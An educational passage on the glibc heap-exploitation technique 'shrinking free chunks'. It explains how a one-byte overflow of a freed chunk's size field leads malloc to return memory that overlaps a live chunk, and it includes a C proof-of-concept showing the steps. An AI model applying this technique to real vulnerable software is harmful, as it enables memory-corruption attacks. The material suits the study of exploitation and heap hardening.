

# Shrinking Free Chunks

This attack was described in '[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'. It makes use of a single byte heap overflow(commonly found due to the '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'. The goal of this attack is to make 'malloc' return a chunk that overlaps with an already allocated chunk, currently in use. First 3 consecutive chunks in memory(`a`, `b`, `c`) are allocated and the middle one is freed. The first chunk is overflowed, resulting in an overwrite of the 'size' of the middle chunk. The least significant byte to 0 by the attacker. This 'shrinks' the chunk in size. Next, two small chunks(`b1` and `b2`) are allocated out of the middle free chunk. The third chunk's `prev_size` does not get updated as `b` + `b->size` no longer points to `c`. It, in fact, points to a memory region 'before' `c`.  Then, `b1` along with the `c` is freed. `c` still assumes `b` to be free(since `prev_size` didn't get updated and hence `c` - `c->prev_size` still points to `b`) and consolidates itself with `b`. This results in a big free chunk starting from `b` and overlapping with `b2`. A new malloc returns this big chunk, thereby completing the attack. The following figure sums up the steps:



_Image Source: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

Consider this sample code(download the complete version [here](../assets/files/shrinking_free_chunks.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directy after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big` now points to the initial `b` chunk and overlaps with `b2`. Updating contents of `big` updates contents of `b2`, even when both these chunks are never passed to `free`.

Note that instead of shrinking `b`, the attacker could also have increased the size of `b`. This will result in a similar case of overlap. When 'malloc' requests another chunk of the increased size, `b` will be used to service this request. Now `c`'s memory will also be part of this new chunk returned.